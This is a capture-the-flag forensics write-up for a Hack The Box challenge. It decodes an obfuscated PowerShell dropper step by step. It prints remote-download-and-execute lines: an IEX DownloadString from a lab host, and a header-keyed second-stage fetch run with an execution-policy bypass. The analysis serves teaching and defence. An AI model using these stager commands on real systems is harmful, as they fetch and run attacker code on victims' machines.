 ![img](assets/banner.png)

<img src='assets/htb.png' style='zoom: 80%;' align=left /> <font size='10'>Thorin’s Amulet</font>

20<sup>th</sup> January 2025

Prepared By: Nauten

Challenge Author(s): Nauten

Difficulty: <font color='green'>Very Easy</font>

<br><br>

# Synopsis

- Thorin’s Amulet is a very easy forensics challenge that involves analyzing obfuscated PowerShell code extracting relevant data to obtain the flag.

## Description

- Garrick and Thorin’s visit to Stonehelm took an unexpected turn when Thorin’s old rival, Bron Ironfist, challenged him to a forging contest. In the end  Thorin won the contest with a beautifully engineered clockwork amulet but the victory was marred by an intrusion. Saboteurs stole the amulet and left behind some tracks. Because of that it was possible to retrieve the malicious artifact that was used to start the attack. Can you analyze it and reconstruct what happened?
  Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.

## Skills Required

- Familiarity with analyzing Powershell code
- Familiarity with basic encoding operations

## Skills Learned

- Analyzing Powershell code extracting relevant data
- Persistence techniques

# Enumeration

The following file is provided:

- `artifact.ps1`: contains some Powershell code

```powershell
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
```

Looking at the code, it is possible to see that a function **qt4PO** is declared and then called.

# Solution

Focusing on the powershell command, **EncodedCommand** parameter in Powershell expects a base64 string.

By using CyberChef and applying "From Base64":

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
```

It seems to be an apparently legit remote endpoint.

After spawning the docker instance, getting IP address (and port) it's possible to map it to the found hostname:

```bash
$ echo "<DOCKER_IP> korp.htb" >> /etc/hosts
```

And then making an HTTP request to it:

```bash
$ DOCKER_PORT=5000 && curl http://korp.htb:$DOCKER_PORT/update
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq
```

Looking at the code, it is possible to see that a function **aqFVaq** is declared and then called.

Another important part to focus on is this one:

```powershell
Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
powershell.exe -exec Bypass -File "a541a.ps1"
```

Basically a call to a suspicious endpoint is made using a custom HTTP header named **X-ST4G3R-KEY** retrieving another powershell script that gets executed.

Reproduce the same HTTP request using curl to get the file content:

```bash
$ curl -H "X-ST4G3R-KEY: 5337d322906ff18afedc1edc191d325d" http://korp.htb:$DOCKER_PORT/a541a
$a35 = "..snip.."
($a35-split"(..)"|?{$_}|%{[char][convert]::ToInt16($_,16)}) -join ""
```

By using CyberChef and applying "From HEX" operation the flag can be obtained.
